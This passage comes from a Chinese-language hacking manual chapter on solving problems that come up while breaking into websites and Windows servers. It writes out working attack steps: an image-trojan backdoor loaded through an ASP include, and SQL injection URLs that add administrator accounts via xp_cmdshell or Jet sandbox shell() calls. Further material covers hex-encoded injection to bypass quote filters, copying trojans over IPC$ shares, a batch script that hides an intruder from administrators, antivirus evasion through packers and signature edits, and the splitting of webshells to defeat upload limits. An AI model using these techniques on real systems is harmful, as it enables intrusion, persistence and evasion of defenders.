我们可以利用这个特性安置很隐蔽的后门，就是将一个木马做成图片木马，并且改后缀为 gif，放置到网站的图片文件目录，比如 `upfile/20080608234413.gif`，然后在一个 asp 文件的第一行写上 `<!--#INCLUDE FILE="./upfile/20080608234413.gif" -->`。这样在访问包含有这段代码的 asp 文件时就调用了 `/upfile/20080608234413.gif` 木马的功能，而访问 `/upfile/20080608234413.gif` 又会出现正常的图片，不是十分有经验的网管很难看出来这段代码的用意。

下面我们就来操作一下。先找一张图片，把一句话木马和它绑在一起（制作图片木马的方法这里就不详述了），文件路径为 `images/20080608234413.gif`。访问一下这个文件，发现仍是以图片显示的，如图10所示。


找一个已有的或另外新建一个 asp 文件，比如 `1.asp`，在源代码第一行写上 `<!--#INCLUDE FILE="images/20080608234413.gif" -->`，保存后放到被黑的网站上。然后访问 `http://www.xxx.com/1.asp` 即可以访问木马，如图11所示。


### 4 为什么我通过小马上传文件总是失败？

在某网站已经有小马的 WEBSHELL 了，可是不久之后发现，上传大马总是失败，如图12所示。

通过上传后的提示“oh no..!”判断并不是上传的木马被杀，因为上传后被杀的症状是提示“上传成功”，可是访问木马地址却找不到文件。反复试过多次都无法成功，生成的路径是对的。把写入的内容换成非木马文件测试，结果仍是无法生成文件，说明也不是安装了信息过滤系统导致的无法上传，如图13所示。


这种症状的无法生成文件，十有八九是目录限制了写权限。解决的方法是从网站中找出一个没有禁止写权限的目录，把它作为木马生成路径即可。但是网站的目录繁多，光凭人力一个个从源代码里找各个路径实在太困难了，我们需要借助工具。

下载工具“网际快车”有一个“资源探测器”的功能，如图14所示。这个功能本来是用来查找 FTP 下载服务器上的各个文件夹，然后集中显示的，在这里我们可以用来方便地查看网站包含的目录。

**启动“网际快车”，进入“工具”－“资源探测器”，也可以用快捷键 F7 直接启动，如图14所示。**


在工具的地址栏中输入网站地址 `http://www.xxx.com` 然后回车，工具开始探测网站了，如图15所示。


探测的结果显示在左边的列表中。请注意：**如果是半透明方式显示的目录，说明该目录下还有下级目录，点击这个目录会继续探测下级目录。**这样整个网站的目录结构就呈现在我们面前了，如图16所示。

我们将生成木马的文件夹逐一改成探测到的目录，终于在 `passport/images` 目录发现没有禁止写权限，生成木马成功，如图17所示。


图16


图17

## 5 SA权限注入点无法建管理员账号，也无法备份WEBSHELL时该怎么办？

当我们手里有一个SA注入点时，入侵的思路通常有两种。一种是直接执行命令，在第一章《数据库入侵相关技术》中介绍过，可以通过 cmdshell、wscript.shell、OACreate 三种模式执行命令。如果这三种模式都被删除了，则无法执行命令，如图18所示，执行命令无反应。


图18

这样就只能退而求其次，把SA权限当成DB_OWNER权限来用，然后找Web绝对路径，接着建表插马，备份WEBSHELL。可有时候也有无法建表和导出失败的情况，更有甚者，这台安装有MSSQL的服务器与Web服务器是分离的，不是同一台服务器，根本就没法备份WEBSHELL……这种情况下难道就没有办法了吗？

还有一个办法可以试试，用沙盒模式执行命令。**简单地说，沙盒模式是一种安全功能，在沙盒模式下，ACCESS只对控件和字段属性中的安全且不含有恶意的代码表达式进行求值。**

如果表达式不使用可能以某种方式损坏数据的函数或属性，则可以认为它是安全的。当ACCESS以沙盒模式运行时，调用这些函数的表达式将会产生错误消息。

如果还没听懂，干脆我翻译成一句大白话：总而言之，沙盒模式开启时，我们不能通过ACCESS执行命令；如果将其关闭，就可以通过ACCESS来执行命令。

沙盒模式提权必须要SA权限，因为作为一种安全措施，默认情况下沙盒模式是开启的，需要用 xp_regwrite 存储过程改写注册表关闭。

启动沙盒模式需要修改注册表里的一个叫 SandBoxMode 的开关，将它由默认的 2 改为 0。这个开关的位置是：`HKEY_LOCAL_MACHINE\SoftWare\Microsoft\Jet\4.0\Engine\SandBoxMode`，如图19所示。


图19

参数为0表示始终禁用沙盒模式；1表示对非ACCESS应用程序使用沙盒模式；2表示对于ACCESS应用程序使用沙盒模式；3则是完全开启安全设置。

下面我们使用 xp_regwrite 这个存储过程对注册表进行写操作，关掉沙盒模式。SQL语句为：

```sql
exec master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE', 'SoftWare\Microsoft\Jet\4.0\Engines', 'SandBoxMode', 'REG_DWORD', 0
```

执行成功后沙盒模式就被关闭了。修改完毕后还需要在系统中找到一个ACCESS数据库，还好Windows系统目录下已经存在了两个这样的数据库，位置是 `%windir%\system32\ias\ias.mdb` 和 `%windir%\system32\ias\dnary.mdb`，如图20所示。


图20

接下来我们就可以构造注入语句执行命令：

```text
http://www.xxx.com/atje/list.asp?id=4395&Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Database=c:\windows\system32\ias\ias.mdb','select shell("net user rohack 12345678 /add")')
```

> 在这个语句中，没有使用通常用来执行命令的 cmdshell、wscript.shell、OACreate 等存储过程，完全绕过了它们，所以即使这些功能被禁止，也能顺利执行命令。

# 第五章 入侵过程常见问题

再次执行添加进管理员账号的命令：

```text
http://www.xxx.com/attle/list.asp?uid=43958 Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0','Database=c:\\windows\\system32\\ias\\ias.mdb','select shell(''net localgroup administrators nohack /add'')')
```

接着用 **net user** 查看命令，发现建立账号成功，如图21所示。


图21

现在确定我们已经拥有了计算机的 administrators 权限，别的入侵方法也可以尽情发挥了，如直接上传个灰鸽子控制主机等。

最后提醒一点，虽然有的注射点是用SA账号连接的，但是SQL Server服务本身没有以system权限运行，自然也就没有系统权限了，这种条件下沙盒模式也是无法成功的。

## 6 为什么肉鸡上运行着远程桌面服务，可是却无法连接到对方的远程桌面？

某台服务器通过命令 **netstat -an** 发现3389端口处于 listening 状态，如图22所示，说明3389远程服务很可能是打开的，可是在连接时却连接不上。


图22

肉鸡的服务中，远程桌面服务 Terminal Services 也是启动的，可是无法连接上，如图23所示。


图23

按出错提示分析，主要原因包括：

- （1）提示账户限制。  
  检查是不是空密码。空密码用户在WIN2000、WIN2003下无法远程登录（WINXP可以空密码远程登录，但是只有GUEST权限），必须要对登录账户设置一个密码，或者新建一个有密码的账户。

- （2）提示超过了允许的最大连接数的错误。  
  这通常是组策略里限制了允许远程连接的人数。单击“开始”→“运行”，输入“gpedit.msc”，再依次选择：“计算机配置”→“管理模板”→“Windows组件”→“终端服务”，如图24所示。  
  双击右边的“限制连接数量”，选择“已启用”，填入允许的最大连接数，再次连接即可。

> 在3389中，断开和注销是两个不同的概念。虽然一个用户断开了，但他的会话是没有停止的。当他下次登录时，可以直接进入上次断开的会话，而不需要重新初始化会话。这样系统会认为有2名用户连线，所以会出错，这时需要注销掉这一用户登录（你要有系统管理员权限）。

肉鸡上使用命令 `query user`，查看当前终端服务器中的用户列表，如图25所示。

```text
query user
```

再用 `logoff ID` 命令踢除登录的其他用户，ID号为从 `query user` 命令获得的对应账号ID。另外，WINXP只允许一个远程用户连接计算机。

```text
logoff ID
```

- （3）提示远程连接已超时，请重新连接到远程计算机。  
  这是系统有问题，用户登录后注销不了，卡在上面了，所以下一个用户登录不进去。我们可以按照第（2）个问题的方法在WEBSHELL上解决，最后再尝试远程终端登录，如图26所示。


- （4）提示不能初始化远程桌面连接。  
  这个提示是由于你在计算机上安装的第三方远程连接程序的登录文件（即图形标志和身份验证文件 **Msgina.dll**），与远程主机的系统远程桌面不兼容造成的。  
  卸载第三方远程连接工具后，将这个 **Msgina.dll** 登录文件从其他同版本Windows的计算机中复制一个，并拷贝到你计算机中的 **“系统盘符\Windows\system32”** 目录下即可。

> 如果是因为远程主机的 **MSGINA.DLL** 文件被改变所造成的无法连接，在修改覆盖远程机器上的 **MSGINA.DLL** 文件时一定要将它进行备份，出错时方便恢复。

- （5）提示无法连接到计算机。  
  如果在连接远程桌面时提示无法连接到计算机，请检查输入的计算机名和IP地址是否正确，如图27所示。


图27

- 原因1：目标计算机可能在内网。用命令 `TELNET 目标主机IP 3389` 测试是否能被外部访问，如果不能访问则说明目标主机在内网，可以尝试反向连接。
- 原因2：远程主机可能改了端口。使用扫描器扫描对方打开的端口，然后再尝试连接。
- 原因3：远程计算机上有防火墙。使用其他可连接远程计算机命令行的方式（如 `TELNET`），关闭防火墙再次连接，也可以尝试反向连接。
- 原因4：请注意，远程终端服务处于运行中，不代表已经准许连接。如果在 **Windows XP** “我的电脑”→“远程”→“允许用户远程连接到计算机” 中没有被选择，即使 Terminal Services 在运行，也无法连接，如图28所示。建议参照开3389远程桌面的方法，再开启一次终端服务。


图28

## 7 我使用X攻击器IPC连接上了一台有漏洞的电脑，为什么在复制文件时提示出错？

已经建立了 ipc$ 连接，但是在复制文件的时候提示出错，原因可能有以下几个方面：

### （1）默认共享判断错误

ipc$共享与默认共享是两码事。ipc$共享是一个命名管道，不是具体的文件夹；而默认共享并不是ipc$共享的必要条件。要写文件必须要有一个允许共享的目录，建立IPC是否成功与能复制文件、甚至执行命令没有必然联系，不要把建成IPC就当成了可以任意行事，这是两个概念。

IPC只是一种连接，就好比一条水管接通了。如果要想通过这根水管往对方主机上“装水”（传文件），那对方必须要有一个能装水的“桶”（对远程用户开放写权限的目录），否则就无法传递。

IPC建立成功，但是肉鸡上没有开放任何目录为共享，这种情况是无法复制文件的。解决方法是通过命令 `net share \\ip\c$` 把C盘共享。

### （2）复制目的地出错

复制根本就不存在的共享文件或目录，例如执行 `copy muma.exe \\192.168.1.10\c$`，但是对方主机实际上没有将C盘共享，我们的命令却是将文件复制到C盘，如图29所示。


很显然这是无法复制成功的。目录复制前应使用命令 `net view \\IP` 查看目标主机的共享情况（该命令依赖于IPC连接，执行这个命令需要与远程主机已建立IPC连接，并不能单独使用），如图30所示。

看有哪些盘或目录是允许共享的，常见的有 c$、D$、E$ 和 ADMIN$，选择相应允许共享的盘再次进行复制。比如通过命令 `net view \\192.168.1.10` 知道了这个IP有 ADMIN$ 目录是共享的，则执行复制命令 `copy muma.exe \\192.168.1.10\admin$\muma.exe`，这样就将 muma.exe 复制到了远程电脑的 `c:\windows\system32` 目录下。

如果没有开共享，可自行映射，执行命令 `net use z: \\IP\c$` 即可将对方的C盘映射为本地的Z盘，然后执行 `copy muma.exe z:\` 就将 muma.exe 拷贝到了远程目录下。

### （3）用户权限不够

空连接向所有共享（默认共享和普通共享）复制时，大多情况下权限是不够的。向默认共享复制时，要具有管理员权限，或者对GUEST开放有写权限。这一点只在Windows XP SP1以前版本或WIN2000的任何版本中可能具备；如果你的目标主机是其他版本系统，如Windows 2003，是不会有写权限的。

向普通共享复制时，要具有相应权限（即目标主机预设的访问权限）。普通共享是指上文中用 `net use z: \\IP\c$` 命令映射的共享。如果要往映射盘符写入文件，需要远程主机上的对应目录给予相关权限。例如示例命令中的C盘，需具有允许GUEST账号的写权限；如果远程没有相关权限，写入会失败。

### （4）目标主机通过防火墙或安全软件的设置，禁止外部访问共享

这种情况下首先看自己的权限。如果是管理员权限，很好办，用 `tasklist` 命令先列出进程列表，如图31所示。查看防火墙或防护软件的PID值，然后用 `taskkill /pid PID值` 命令关掉防火墙或安全软件的进程后再复制即可。


图31

### （5）IPC连接依赖的服务被禁用或被破坏

因为IPC是一种很危险的漏洞，很容易被黑客利用，一些个人计算机也用不上这个功能，所以很多安全意识比较高的用户为了安全考虑，禁止了这个服务或做了破坏。这是最绝的一招，就好像给IPC做了割除手术，这种情况下是再也无法进行IPC连接的了，如图32所示。


图32

## 8 怎样防止自己的木马被查杀呢？

在入侵中，我们使用的木马几乎不可能是免杀版。免杀的只有那些黑市上价格昂贵的商业木马，或者某些个人和组织为自己特制的专用木马，作为普通黑客技术爱好者是不可能得到的。那么毫不夸张地说，想玩木马就必然要将自己的木马改为免杀版本。

- 1. 加壳
- 2. 修改特征码
- 3. 修改程序
- 4. 加多重壳
- 5. 加伪装壳
- 6. 打乱壳的头文件等

程序在写好之后通常会很大，这时加个壳给它“包装”一下，能使程序变小，这就是压缩壳的作用。压缩之后文件结构变化了，理论上是能防杀的，不过现在的杀毒软件大部分能自动检测常见压缩壳的文件，此方法已不太好用。

常见的压缩壳有：UPX（如图33）、ASpack（如图34）、Petite（如图35）、PECompact（如图36）、PE-PACK（如图37）、WWPack32、Neolite、Shrinker等。


图33  
图34


图35


图36


图37

压缩壳加壳工具的使用非常简单，基本上都是先选择程序，然后直接压缩就可以了。压缩壳主要针对诸款杀毒软件比较有效，因为它的特征码通常定位在文件头中，被压缩后文件头位置发生了变化，从而达到了免杀效果。

加密壳又叫保护壳，等于是“包装”之后再加把锁，让其不易被破解；生僻壳，顾名思义就是不常见的壳，如果对加解密知识比较了解，弄一个极少人用的壳来加自己的木马，可能会起防杀效果。常见的加密壳有：ASProtect（最难脱的壳，压缩技术也好）、tElock、Armadillo（如图38）、SVK Protector、Xtreme-Protector、Obsidium、PELock、PKLITE32等。


图38

多重壳就是把各种壳都加一次，让杀毒软件无法识别。或者这种壳对杀毒软件A有效，那种壳对杀毒软件B有效，这时将两种壳加在一起，使杀毒软件A和B都有可能无法查杀。伪装壳是把壳伪装成另一种壳，让木马无法识别；打乱头文件用能加密PE头的加壳工具就能办到。

以上主要是依赖工具的防杀，在有好工具的情况下可以使用，但过不了内存查杀，所以不是真正的免杀方法。真正的免杀是采用修改特征码和改程序的方式，这两种修改方式操作较复杂，以后的篇幅中会特别介绍，此节只简单介绍下。

大部分杀毒软件是通过特征码来对木马进行识别，然后进行查杀的。特征码就是程序代码中的某一处或一些字符，如果改掉特征码，就能让木马逃过查杀。

修改特征码一般先通过CCL这个软件来定位特征码所在位置，然后用汇编工具 OllyDbg 把程序载入后修改特征码处字符，或替换为其他相应功能的字符。对于内存查杀的杀毒软件，例如瑞星，只能用改特征码的方法免杀；其他修改方法，如跳转或者加花指令，都只能作文件免杀。

这里又出来了两个新名词——“内存查杀”和“文件查杀”，有必要解释一下。“内存查杀”是指对程序调入内存之后的情况进行查杀；“文件查杀”是指运行之前的查杀，这中间是有区别的。打个比方，只作了文件修改的程序，就好像被包装纸包了很多层，这样是文件免杀了。可是到了要使用时，被调入内存，那一层层包装纸也就被剥去，露出了原来的样子，自然要被杀毒软件查杀了。

所以，对程序的“文件查杀”和“内存查杀”都作了修改，才算是比较全面的免杀处理。

## 资深黑客渗透内幕答疑

## 9 我用3389登录对方电脑的远程桌面后，他会发现吗？我操作他的电脑会影响到他用鼠标和键盘控制电脑吗？

如果没有防火墙，是不会发现的。如果对方装有防火墙，在被连接时防火墙会报警，提示“IP xx.xx.xx.xx 试图连接本地3389端口”。3389连接后，系统会对远程用户再分配一个桌面，就类似同时在远程主机上运行了两个Windows系统，你使用一个，机主使用一个，也不会发现有什么异常。

> 3389远程桌面登录与QQ远程协助的区别在于，前者在屏幕上进行点击、移动鼠标等操作，丝毫不会影响到机主自己的操作，而后者的操作是强制性地代替机主操作；前者是两用户各自使用各自的桌面操作，后者是二者共用一个桌面操作。

如果是Windows XP主机的3389远程连接，不论在任何时候连接，对方主机上都会弹出“远程桌面正在连接，是否允许”的提示。因此如果是控制XP主机，开3389并不是一个明智的办法。在关机时，如果有别的连接还在登录，会出现“其他用户登录到这台计算机，关闭Windows会使他们丢失数据，您要继续关机吗？”的提示，如图39所示。


有经验的管理员可以通过 `query user` 命令查看登录用户，返回信息如图40所示：用户名为 anter；终端服务器上的会话名为 rdp-tcp#10；会话ID为3；会话状态（活动或断开连接）为运行中，表示正在连接中；空闲时间（在该会话中自上次击键或鼠标移动以后……）。来经过的分钟数）是用户登录的日期和时间。如果发现非法连接用户，则可用 `logoff ID` 命令踢出用户。`query user` 和 `logoff` 命令只在服务器版的 Windows 操作系统下才有，Windows XP 系统没有这两个命令。


同样的，我们在服务器上操作时，也要时刻注意是否管理员上机了。在图形界面下，可以在“Windows 任务管理器”的“用户”选项卡中时刻留意此时连接上机器的用户。如果有管理员或“同行”连接上，赶快自己下线吧，如图41所示。


以上就是在远程桌面登录状态下几个用户之间会造成的影响和应对方法。网上曾经有个脚本，代码如下：

```bat
:begin
query user | find "console"
if errorlevel 1 logoff 1 && logoff 2
goto begin
```

将这段代码保存为 BAT 后缀文件在服务器上运行，当管理员使用 `query user` 命令查询有哪些登录用户时，系统会马上断开服务器与你的连接，这样管理员就无法查询到你的异常登录了。但经过笔者测试，这样会使主机上生成大量的 `cmd.exe`，并且有时会发出报警声并影响网速，反而会引起不必要的麻烦，最好还是不要使用。登录远程主机后就用“Windows 任务管理器”看着“用户”，这是我认为比较稳妥的办法。

## 10 所谓的“穿越防火墙”技术是如何实现的？

穿过防火墙的方法有很多，比如利用碎片包、另类协议等方法绕过防火墙的过滤。一些方法的利用难度很大，需要深入理解网络知识，并配合一些专业工具才能使用。不过在黑客看来，永远是思路比技术还要重要，今天就给大家介绍一个利用思路绕过防火墙的方法。

假设现在有一个网络环境如下：

一台主机 IP 为 25.231.1.3，为内网提供代理服务，内网的计算机要访问 `http://www.nohack.com` 必须以 25.231.1.3 的 8001 端口为代理。25.231.1.3 访问 `http://www.nohack.com` 后把内容转发到内网请求访问的主机上。

访问 `http://25.231.1.3` 都提示拒绝访问，这种情况是典型的内网对外网的代理配置，学校和网吧经常采用这种方法。


图42

我们总结了一下，这个网络环境主要有以下两条规则：

- 一台服务器作为代理服务器，同时还运行着一个对内开放的 Web 站点，仅对 IP 为 127.0.0.1 和 10.0.0.X 的内网网段开放访问权限。

看似天衣无缝的设置，即便内部的 Web 页面上存在漏洞，而外网用户访问不了，也是没有危险的。可是这种配置容易忽视一个问题：虽然服务器被配置成拒绝除内网 IP 和 127.0.0.1 访问 8001 端口，可是却没有配置只响应对于 8001 的代理请求（网络数据包中的代理请求和 HTTP 访问请求是不同的）。

现在我们想访问这个内部 Web 站点进行安全检测，但是因为有防火墙的限制，从外部无法访问，可以尝试以下方法。先进行一下测试，看看是否有配置不严谨的地方。使用工具 NC 向 25.231.1.3 的主机发送如下请求：

```txt
nc 25.231.1.3 8001
GET 127.0.0.1:80 / HTTP/1.0
```

这次返回的并不是拒绝访问，而是 220 允许访问，说明此网站的安全设置是存在问题的，允许反向代理请求进入内网。

我们可以马上进行利用，**打开 IE，将代理服务器设为 25.231.1.3:8001**，如图43所示，然后在浏览器中输入 `http://127.0.0.1`，这时浏览器中出现的就是只有内网才能访问的内部 Web 页面。


图43

为什么会出现这样的结果呢？因为代理服务器是一个双向系统，具有内部网络接口 10.0.0.1 和外部网络接口 25.231.1.3。当外部访问者试图访问 `http://25.231.1.3:80`、`http://25.231.1.3:8001` 时都会提示禁止访问，这是因为该服务器被配置成拒绝响应除 10.0.0.X 和 127.0.0.1 以外的任何 IP 地址连接，然而对于任何 IP 地址都允许接收 HTTP 代理请求的事实却忽略了。

因此，当外部访问者发送 HTTP 代理请求 `http://127.0.0.1` 到 25.231.1.3 的 80 端口时，该代理服务器通过了该请求，并与运行在 80 端口上的 Web 服务建立了连接。如图44所示，看看黑客最后达到目的的网络拓扑图。


## 11 为什么在 Windows 2003 下上传总是失败？

在本章第4节《为什么我通过小马上传文件总是失败？》中，分析了“曾经能上传的小马，但现在不能上传”这种问题发生的可能性，主要是管理员限制了目录写权限。我们可以通过随便输入一段不是木马的字符，如“hello!”来测试这些目录，直到找到能写的目录为止。

这一节将会引出一个新的问题。如上所说，我们通过一段无关代码进行目录写权限的测试，发现 images 目录有写权限，于是上传海洋顶端木马，但返回出错信息，上传失败，如图45、图46所示。


相信很多朋友对这个原因会迷惑不解，明明目录是能写的，木马却写不进去。这里告诉大家，这种情况的出现是管理员修改了允许上传的 ASP 文件的大小导致的。也许受到 ASP 套空间炸弹及无聊用户频繁上传大型文件的困扰，或者管理员出于对 Web 木马的肤浅理解（认为都在几十 K 左右），他们采取的安全措施一般是进行一些设置，限制上传文件的大小，不允许上传超过一定容量大小的文件。这种设置并不是在整站程序源代码中进行，而是通过 IIS 的配置进行修改，对整台服务器下的所有网站都有效。

这种自由修改允许上传的 ASP 文件大小的设置只能在 Win2003 服务器中进行，默认的允许上传文件最大为 200K。下面先看看是如何修改这个值的，然后再学习突破的办法。

- 更改 Win2003 的 IIS6.0 对 ASP 上传文件大小 200K 的限制需要以下几步：
- 第一步：修改 IIS 设置，允许直接编辑配置数据库。依次打开“控制面板”→“管理工具”→“Internet 信息服务”，在服务里关闭“IIS Admin Service 服务”；
- 第二步：然后找到 `%systemroot%\windows\system32\inetsrv\` 下的 `metabase.xml`，如图47所示。


打开该文件，找到 **ASPMaxRequestEntityAllowed** 项，把它的值进行修改，默认为 204800，即 200K。如把它修改为 102400000（100M）或 25600（25K），如图48所示。


假设我们的目录服务器经过修改后只允许上传小于 25K 的文件，那么超过此限制的木马和提权要用到的工具也就无法上传了。

现在冷静地思考一下，服务器限制的是 25K 大小，小于这个容量大小的文件能上传，那么能不能把大文件拆分成允许上传容量大小的分块，到服务器上再组合成原文件呢？

思路当然是可行的，并且还有前辈写出了利用工具。使用工具包括一个用来切割文件的 EXE 程序和一个上传到网站用来粘合文件的 ASP 程序，如图49所示。


我们先用工具来把大马切成几块，在“被切割文件名”处填入要切割的文件，然后设置切割后小文件的大小。注意：因为我们要绕过的限制是 25K，这里就设置每个文件为 20K 吧。

然后在“切割后的小文件名”处设置保存路径及文件名，最后在工具上点右键选择“进行切割”。这时在设置的路径下，一百多 K 的海洋顶端木马生成了 hy.001-hy.006 六个文件，如图50、图51所示。


现在这几个文件还不能被那个 ASP 合并程序识别，我们要修改一下。编号是多少的文件，我们就把前面的 00 去掉，并以 1 来添加位数表示第几个文件。如 hy.001 改为 hy.1，hy.002 改为 hy.11，如图52所示，以此类推。


把改好的分块文件，还有 ASP 合并程序都上传到肉鸡上，在 IE 中访问合并程序出现一个对话框，按照要求分别输入第一个文件名 hy.1、最后一个文件名 hy.111111 和合成的文件名 hy.asp，然后点击提交，如图53所示。


不一会儿，成功生成 hy.asp，这样就绕过了 IIS 限制上传文件大小的问题，如图54所示。


这种方法不光用来上传 ASP 文件，EXE 等格式的文件如果被限制上传，也可以用同样的办法绕过。

## 12 下载得到的数据库却没有密码，该怎么打开？

有时我们费尽千辛万苦得到了一个网站的 Access 数据库，就在以为能马上看到数据库中我们感兴趣的资料时，打开却发现是这样的结果，如图55所示，要求输入密码。


用记事本打开数据库文件的源码，想在一堆乱码中凭肉眼查找到密码所在的位置实在是希望渺茫，如图56所示。


不用太灰心，这不过是数据库进行了加密，并且不是 MD5 加密。也就是说，管理员连取个变态口令让我们无法破解出来的机会都没有，只要拿到数据库，就能得到明文密码。很多工具能破解这种加密，随便使用一款破解工具打开数据库，选择“破解密码”，即可得到明文，如图57所示。


图57中的密码是 admin888，打开数据库时输入这个密码，成功进入，如图58所示。


可能有朋友会问，是怎么给 Access 数据库加密码的？其实这个只要安装有 Office 办公套件中的 Access 2003 就很容易设置。先打开 Access 2003，然后选择“文件”－“打开”，选择要加密码的 mdb 文件后不要急着点“打开”，而是要点击一下“打开”按钮右边的向下小箭头，选择“以独占方式打开”，如图59所示。

然后点击“工具”－“安全”－“设置数据库密码”，如图60所示，在弹出的对话框中输入密码。以后打开这个 mdb 数据库文件就得需要密码了。


图59


图60

使用这个加有密码的数据库文件，能提高网站的安全性，我们还可以进一步修改数据库连接文件，只需将连接字串改为：

```txt
microsoft.jet.oledb.4.0;data source=e:\dweb\nohack\database\member.mdb;persist security info=false;Jet OLEDB;Database Password=123456
```

也就是在连接字串中加上密码函数即可。

## 13 爆出管理员密码后都是加密的，该怎么得到未加密的明文？

通过注入得到的密码是加密的，现在应该不算是什么新鲜事了，因为现在绝大部分程序都将密码进行了加密，其中使用得最多的是 MD5 加密，如图61所示。


图61

通过标准 MD5 加密后的密码是由小写字母和数字组成，共16位；另外一种 MD5 的加密是 32 位的，也是由小写字母和数字组成，这是一种 MD5 的复合加密。如图62所示，nohack58 能转换成 32 位和 16 位两种形式的 MD5 密码散列。

反之，如果我们注入得到 32 位的一串密码，不要以为不是 MD5 加密。另外还有一种特殊的情况，有的整站程序会把 MD5 加密后的散列中的小写字母转换成大写字母，比如动易。遇到这种情况时，要先把大写字母转换成小写字母后再进行破解。破解 MD5 加密的网站主要有 **http://www.cmd5.com** 和 **http://www.xmd5.com**，我们只需要输入 MD5 散列再单击相应的功能按钮就可以了，如图63所示。


除了 MD5 加密以外，还有一种比较老的加密方法——Base64 加密。初学黑客技术的朋友在用工具注入某些站时常会奇怪地问，为什么注入出的字符没有什么实际意义，感觉有点“乱七八糟”，这很可能就是 Base64 加密，如图64所示。


图64中的 **YWRtaW44ODg=** 就是 admin888 密码进行 Base64 加密后的散列。要破解 Base64 加密很简单，在 `http://www.google.com` 上搜索“base64 解密”，选择一个破解网站，输入散列后单击“转换”即可得到明文密码，如图65所示。


最后再次说明一下，Base64 加密不像 MD5 加密是不可逆的，MD5 的强口令无法破解，而 Base64 是可以任意破解的。

## 14 如果过滤了单引号如何注入？

单引号是 MSSQL 注入中非常重要的一个符号，表名需要放在单引号里才能被作为参数提交，如 `0<>(select top 1 name from nohack.dbo.sysobjects where xtype='U' and name not in('ID','name'))` 语句。在经典的早期 SQL 注入漏洞检测中，大家将“语句中利用单引号能否导致出错”作为注入点的判断条件，众矢之的的单引号于是也就成为了很多程序过滤的重点。

例如有一个网站，通过粗略的单引号测试注入点时，发现警告提示，程序记录下了我们提交的数据、时间、对象文件和 IP 地址，如图66所示。

在教授 SQL 注入的章节中曾说过，早期的注入点仅用单引号检测就行了，随着后来技术的发展，又出现了 `and 1=1`、`and 1=2` 检测，于是再用这个方法来试试。结果发现 `and 1=1` 时返回正常页面，`and 1=2` 时则返回出错页面，说明存在注入漏洞，如图67所示。


图66


图67

现在我们面对的情况是找到了 MSSQL 注入点，但是过滤了单引号。本来想先通过 `0<>(select count(*) from master.dbo.sysdatabases where name>1` 语句暴出数据库，然后再通过 `0<>(select top 1 name from xxxxxx.dbo.sysobjects where xtype='U')` 语句暴出一个表名，但这种方法是行不通的，因为过滤了单引号，使得语句无法正常执行。

这种过滤了单引号的防注入是最常采用、也是最便于理解的。它是采用建一个函数，然后把语句转换为 16 进制编码作为参数赋予这个函数，最后再执行函数的方法，过程就好像数学中的代数：

- 设一个函数 S
- 转换要执行的 SQL 语句为 16 进制
- 把转换的结果作为参数赋给 S
- 执行 S 函数，实际上就是执行了被转换的 SQL 语句

明白了原理我们就来看看具体怎么操作。转换的过程用一款工具就能方便准确地做到，这款工具就是“SQL 注入学习小工具”，如图68所示。


图68

界面上方是“需要转换的语句”输入框，下面是返回结果的输出框。这里我们是进行 SQL 注入，所以转换的类型就要选“SQL SERVER 格式”。我们把刚才查表的语句 `0<>(select top 1 name from nohack.dbo.sysobjects where xtype='U')` 复制进输入框进行转换，如图69所示。返回的结果提示我们转换后的结果和用法，如图70所示。

现在将转换后的代码放进注入点执行，注意在注入点后要先加个 `;` 分号再接这段代码，最后在语句的末尾再加上注释符 `--`，完整语句如下：

```sql
DECLARE @S NVARCHAR(4000); 
SET @S=CAST(0x3C003E002800730065006C00650063007400200074006F0070002000310020006E0061006D0065002000660072006F006D0020006E006F006800610063006B002E00640062006F002E007300790073006F0062006A0065006300740073002000770068006500720065002000780074007900700065003D002700550027002900 AS NVARCHAR(4000));
EXEC(@S);
--
```


提交后成功暴出了表名，如图71所示。依此方法每次将 SQL 注入语句转换后再提交，就可以绕过单引号继续正常注入了。使用的语句与正常注入无异，就是多个用工具转换的步骤而已。


## 15 如果 XP CMDSHELL 被删除了，无法执行命令该怎么办？

在某网站发现一个 MSSQL 注入点，经过检测后为 SA 权限，如图72所示。从理论上来讲，我们能执行任何系统命令来入侵这台服务器。并且注点是 MSSQL 数据库显错模式，也就是说，当执行 `0=(数据库查询语句)` 这种暴查询内容的语句时，能在页面上显示报错结果，轻松获取信息。


遇到 SA 权限的标准入侵流程是先试试能不能用扩展存储过程 XP_cmdshell 来执行系统命令，如果能执行，建管理员账号后开 3389 远程桌面就可以了。在注点上执行命令，如果成功会返回正常页面，如果不成功，会返回出错页面。

我们来进行实际操作，在注入点输入建账号命令，看看能否成功，语句如下：

```text
http://www.xxx.com/list?id=1433; exec master.dbo.xp_cmdshell 'net user nohack 12345678 /add'
```

结果出现了如图 73 所示的报错页面，说明执行命令不成功。


图73

SA 权限下执行 XP_cmdshell 命令失败，最大的可能是该存储过程被删除了。删除分两种，我将其分别称为“软删除”和“硬删除”。

先说说硬删除，XP_cmdshell 的执行必须依赖 `%systemroot%\Program Files\Microsoft SQL Server\MSSQL\Binn` 下的 xplog70.dll 文件，如图 74 所示。


图74

如果该程序被删除了，那肯定无法恢复 XP_cmdshell 了，除非你能通过别的途径上传 xplog70.dll 文件。

软删除则是没有删掉 xplog70.dll 文件，只是使用 `exec sp_dropextendedproc 'xp_cmdshell'` 语句注销了 XP_cmdshell 扩展存储过程，这种情况我们可以再把它恢复过来。

```text
http://www.xxx.com/list?id=1433; exec sp_addextendedproc xp_cmdshell, @dllname='xplog70.dll'
```

返回了正常页面，说明语句被成功执行，如图 75 所示。


图75

我们确认一下 XP_cmdshell 是否被成功恢复了，输入语句 `http://www.xxx.com/list?id=1433 select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'` 后，再次提交本节开始时用 XP_cmdshell 执行建账号的语句：`http://www.xxx.com/list?id=1433; exec master.dbo.xp_cmdshell 'net user nohack 12345678 /add'`。这时返回正常页面，说明能正常执行系统命令，现在就可以顺利地进行后续的入侵了。

## 16 手把手教你制作入侵者的简单黑页

有很多刚学习黑客技术的读者朋友在入侵成功别人的网站后，喜欢修改对方的首页，并挂上黑页标明该站被自己黑了，炫耀一下。

笔者并不赞成这么做，但是对于刚学习后取得成果，兴奋之下导致有点冲动，也是可以理解那种心情的。同时，黑页挂上后也是网站被黑展示给大众的最直观方式，这一节就告诉大家如何制作黑页并挂在网站上。

先看以下一段黑页代码，以此为模板给大家讲解：

```html
<html>
<head>
<meta http-equiv='Content-Type' content='text/html; charset=gb2312'>
<meta name='generator' content='http://www.nohack.com'/>
<meta name='keywords' content=''>
<title>黑页演示</title>
